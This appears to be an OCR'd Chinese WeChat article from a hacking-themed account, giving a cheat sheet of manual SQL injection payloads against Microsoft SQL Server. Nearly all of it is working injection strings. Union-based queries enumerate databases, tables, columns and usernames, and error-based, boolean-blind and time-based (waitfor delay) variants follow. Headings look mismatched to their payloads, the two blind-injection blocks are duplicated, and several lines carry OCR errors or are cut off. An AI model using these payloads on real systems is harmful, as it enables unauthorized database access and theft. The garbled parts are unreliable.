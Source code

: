 ```
?id=-1' union select null,null--
?id=-1' union select @@servername, @@version--
?id=-1' union select db_name(),suser_sname()--
?id=-1' union select (select top 1 name from sys.databases where name not in (select top 6 name from sys.databases)),null--
?id=-1' union select (select top 1 name from sys.databases where name not in (select top 7 name from sys.databasesl),null--
?id--1' union select (select top 1 table_ name from information_schema.tables where table_name not in (select top 0 table_name from information_schema.tables)),null--
?id=-1' union select (select top 1 column name from information_schema.columns where table_name='users' and column_name not in (select top 1 column_name from information_schema.columns where table_name = 'users')),null---
?id=-1' union select (select top 1 username from users where username not in (select top 3 username from users)),null--
```

0x03 SQL server 手工注入  

-----------------------

### 3.1 联合注入

```
?id=1' and 1=(select 1/@@servername)--
?id=1' and 1=(select 1/(select top 1 name from sys.databases where name not in (select top 1 name from sys.databases))--
```

### 3.2 报错注入

```
?id=1' and ascii(substring((select db_ name(1)),1,1))> 64--
```

### 3.3 盲注  

#### 3.3.1 布尔盲注

```
?id= 1';if(2>1) waitfor delay '0:0:5'--
?id= 1';if(ASCII(SUBSTRING((select db_name(1)),1,1))> 64) wai
```

#### 3.3.2 时间盲注

```
?id= 1';if(2>1) waitfor delay '0:0:5'--
?id= 1';if(ASCII(SUBSTRING((select db_name(1)),1,1))> 64) wai
```

**关注公众号: HACK 之道**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3qL1R1NCVbY1ElanNngBlMTUKUibAUoQNQuufs7QibuMXoBHX5ibneNiasMzdthUAficktvRzexoRTXuw/640?wx_fmt=jpeg)

如文章对你有帮助，请支持点下 “赞”“在看”